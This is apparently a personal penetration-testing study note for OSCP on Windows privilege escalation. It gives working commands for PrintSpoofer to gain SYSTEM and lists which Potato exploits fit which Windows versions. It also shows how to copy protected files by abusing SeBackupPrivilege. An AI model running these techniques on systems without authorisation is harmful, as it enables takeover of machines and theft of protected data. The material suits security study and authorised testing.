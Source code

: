 ```yaml
---
aliases:
  - Exploits
tags:
  - tech
  - cybsec
  - offensive_security
  - offsec
  - oscp
  - windows
  - privesc
  - privilege_escalation
  - exploit
author: Mehdi N Tehrani
creat_date: 2024-01-02
category: Cyber Security
subcategory: Offensive Security - OSCP
---
```


# PrintSpoofer
#printspoofer #print_spoofer 
[Print Spoofer](https://github.com/itm4n/PrintSpoofer)

User running it on Windows requires `SeImpersonatePrivilege`
#seimpersonateprivilege #se_impersonate_privilege 

```cmd
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeSecurityPrivilege           Manage auditing and security log          Disabled
SeShutdownPrivilege           Shut down the system                      Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeUndockPrivilege             Remove computer from docking station      Disabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
SeTimeZonePrivilege           Change the time zone                      Disabled

```
Command Syntax:
#syntax
```
printspoofer64.exe -i -c powershell.exe

C:\Windows\System32> whoami
nt authority\system
```

# Potatoes
#potatoes #sweet_potato #juicy_potato #rogue_potato
[Potatoes GitLab](https://jlajara.gitlab.io/Potatoes_Windows_Privesc)
[Potatoes GitHub](https://github.com/foxglovesec/Potato)


- Use [Sweet Potato Download](https://github.com/CCob/SweetPotato) to rule them all
- If you do not want to use Sweet Potato:
    - If the machine is >= Windows 10 1809 & Windows Server 2019 - Try [Rogue Potato](https://github.com/antonioCoco/RoguePotato)
    - If the machine is < Windows 10 1809 < Windows Server 2019 - Try *Juicy Potato*


# Backup privileges
#SeBackupPrivilege #SeRestorePrivilege #se_backup_privilege #copy_file_se_backup_privilege

```
Privilege Name                Description                               State   
============================= ========================================= ========
SeBackupPrivilege             Back up files and directories             Disabled
SeRestorePrivilege            Restore files and directories             Disabled
...
```
## process
[HatTricks Article](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/privileged-groups-and-token-privileges#backup-operators-1)
### 1. Download Powershell modules
[SeBackupPrivilegeCmdLets.dll Download](https://github.com/giuliano108/SeBackupPrivilege/tree/master/SeBackupPrivilegeCmdLets/bin/Debug)
[SeBackupPrivilegeUtils.dll Download](https://github.com/giuliano108/SeBackupPrivilege/tree/master/SeBackupPrivilegeCmdLets/bin/Debug)

### 2. Import Modules
```powerhshell
Import-Module .\SeBackupPrivilegeUtils.dll
Import-Module .\SeBackupPrivilegeCmdLets.dll
```
### 3. Set SeBackupPrivilege
```
Set-SeBackupPrivilege
Get-SeBackupPrivilege
```
### 4. Copy files user don't have access to
```
Copy-FileSeBackupPrivilege <source_path> <destination_path>
```
